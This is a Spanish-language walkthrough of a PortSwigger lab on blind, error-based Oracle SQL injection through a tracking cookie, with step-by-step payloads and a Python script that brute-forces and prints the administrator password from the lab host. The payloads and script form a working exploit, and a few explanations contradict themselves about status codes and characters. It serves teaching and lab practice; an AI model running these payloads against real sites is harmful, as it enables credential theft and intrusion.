








---

# Guía práctica: SQLi Blind — respuestas condicionales

---

## Laboratorio PortSwigger

Para ilustrar con ejemplos reales usaremos el laboratorio gratuito de [PortSwigger](https://portswigger.net/web-security/sql-injection/blind/lab-conditional-errors):

`https://portswigger.net/web-security/sql-injection/blind/lab-conditional-errors`

Todas las pruebas que se muestran a continuación se realizaron contra la URL provista por ese laboratorio.

---

## Confirmación de la vulnerabilidad

**Resumen:** en este laboratorio hay una vulnerabilidad de **blind SQL injection**. La aplicación utiliza una cookie de tracking para analítica y construye una consulta SQL con el valor de la cookie enviada. Los resultados de la consulta **no se devuelven** y la aplicación **no cambia** su respuesta según si la consulta devuelve filas. Si la consulta provoca un error, la aplicación devuelve un **mensaje de error personalizado**. La base de datos contiene una tabla `users` con columnas `username` y `password`. Nuestro objetivo es explotar la inyección ciega para descubrir la contraseña del usuario `administrator`.

**Paso práctico (comprobación rápida):**

1. Intercepta una petición con Burp Suite (o abre DevTools).
    
2. Localiza la cabecera `Cookie:` y busca la cookie de tracking usada por la aplicación (el laboratorio indica que hay una cookie de tracking para analítica).
    
3. Haz una prueba sencilla: modifica temporalmente el **valor** de esa cookie añadiendo una comilla simple (`'`) al final y reenvía la petición.    
    `<cookie_name>=valorOriginal'`
    
4. Observa la respuesta:
    
    - Si aparece el **mensaje de error personalizado**, eso confirma que el valor de la cookie se está incluyendo en una consulta SQL y la entrada es inyectable.
        
    - Si **no** aparece un error, **no descartes** la inyección: el laboratorio especifica que la aplicación no cambia su respuesta cuando la consulta devuelve filas (es _blind_). En ese escenario hay que proceder con técnicas ciegas (time‑based o provocar errores condicionales) para inferir verdadero/falso y extraer la contraseña.
        

> Nota: la ausencia de un error explícito no descarta SQLi. En _blind SQLi_ la aplicación suele no devolver el resultado; en su lugar distinguimos TRUE/FALSE por **tiempos de respuesta** (time‑based) o por provocar un **error condicional** que solo ocurra cuando una condición SQL se cumple. El hecho de que la aplicación devuelva un mensaje personalizado ante errores es una pista útil: podemos aprovechar tanto payloads que provoquen errores controlados como payloads que introduzcan retrasos para diferenciar condiciones.

**Evidencia visual:**









Al darnos error en una query propia de [MySQL](MySQL.md), debemos probar para otro tipo de base de datos. Al probar con una query de [Oracle](Oracle.md) vemos que obtenemos el código de estado `200` en lugar del `500` que obtenemos cuando la query no es correcta. Entonces bajo este mismo principio booleano, podemos extraer la información de la base de datos de forma similar a como lo hacíamos en [SQLi Blind conditional responses](SQLi%20Blind%20conditional%20responses.md).




---

## Explotación

Algo que también vemos es que podemos hacer doble comilla ( `''`) y la query se cierra devolviendo un código de estado `200`. Entonces podemos concatenar query en Oracle con  `||<query>||`. Empezamos confirmando la siguiente secuencia lógica

```SQL
'||(select 'a' from dual)||'
```


Entonces podemos generar una condición `select case when (<condición>) then <error> else '' end` de tal modo que cuando la condición sea válida como en el primer ejemplo que es `when(1=1)` entraremos en el `then` y como su valor es erróneo, pues dividimos 1 entre 0 y loco convertimos a strings, se producirá el error con el código de estado `500`.

```SQL
'||(select case when(1=1) then to_char(1/0) else '' end from dual)||'
```


Sin embargo, cuando la condición es falsa como `when(2=1)` entramos en el `else` que es una cadena vacía (que no ejecute nada), y debería devolvernos un código de estado `200` como es el caso.

```SQL
'||(select case when(2=1) then to_char(1/0) else '' end from dual)||'
```



Si apuntamos a la tabla `users` y a su columna `username` donde sabemos que hay un valor para username que es `administrator`, obtenemos la misma lógica, según en el apartado de la condición en la que entremos obtendremos un código u otro.

```SQL
'||(select case when(2=1) then '' else to_char(1/0) end from users where username='administrator')||'
```



Ahora la condición que aplicamos es `when(lenght(password)=20`, es decir, sí la longitud del valor de contraseña es igual a 20 entonces entraremos en el `then to_char(1/0)`  y obtenemos un código `500`, si cambiamos la longitud veremos que entramos en el `else` y obtenemos un `500` como código de estado. Como vimos en  [SQLi Blind conditional responses](SQLi%20Blind%20conditional%20responses.md), el principio es el mismo. Tenemos una forma de poder extraer información tomando como referencia de si las querys utilizadas aplican o no,  al código de estado para este caso de *inyecciones a ciegas basadas en errores condicionales*.

```SQL
'||(select case when(length(password)=20) then to_char(1/0) else '' end from users where username='administrator')||'
```


Hacemos una comprobación de lógica booleana. Como el valor del primer carácter `username,1,1` para el usuario `administrator` es `'a'` y esto es correcto entraremos en el `then` y obtenemos un código de estado `500`. Con esta lógica podemos apuntar al valor de `password` del usuario `administrator` y tratar de exfiltrar su información.

```SQL
'||(select case when substr(username,1,1)='a' then to_char(1/0) else '' end from users where username='administrator')||'
```


Si manualmente buscamos el primer carácter para la contraseña de administrator, vemos que (solo para mí caso) es `f`. Con la confirmación de que esta query funciona, podemos crear un script que nos automatice este proceso.

```SQL
'||(select case when substr(password,1,1)='l' then to_char(1/0) else '' end from users where username='administrator')||'
```



---

## Script

```python
#!/usr/bin/env python3

from pwn import *
import requests, sys, signal, string
import time

def def_handler(sig, frame):
    print(f"\n[!] Saliendo...\n")
    p1.failure("Ataque de fuerza bruta detenido")
    sys.exit(1)

signal.signal(signal.SIGINT, def_handler)


p1 = log.progress("SQLi")

characters = string.ascii_lowercase + string.digits


def makeSQLi():

    p1.status("Iniciando ataque de fuerza bruta")

    time.sleep(2)

    password = ""

    p2 = log.progress("Password")

    for position in range (1, 21):
        for character in characters:
            cookies = {
                    'TrackingId': f"SB3RVC2QjsIChXzV'||(select case when substr(password,{position},1)='{character}' then to_char(1/0) else '' end from users where username='administrator')||'",
                    'session': "yhJwbXELgF68qoqh6ofgeLVMmNO3SjFE"
            }

            p1.status(cookies["TrackingId"])

            r = requests.get("https://0ac6007f045a62fb805e08d800740038.web-security-academy.net/", cookies=cookies)

            if r.status_code == 500:
                password += character
                p2.status(password)
                break

if __name__ == '__main__':
    makeSQLi()
```

**Nota:** importante apuntar al código de estado erróneo (`500` en este caso) ya que muchas lógicas de consultas devuelven un estado `200` y puede confundir al script.

Resultado:

```bash
[→] Password: lyk113ggndoukb19b5ce
```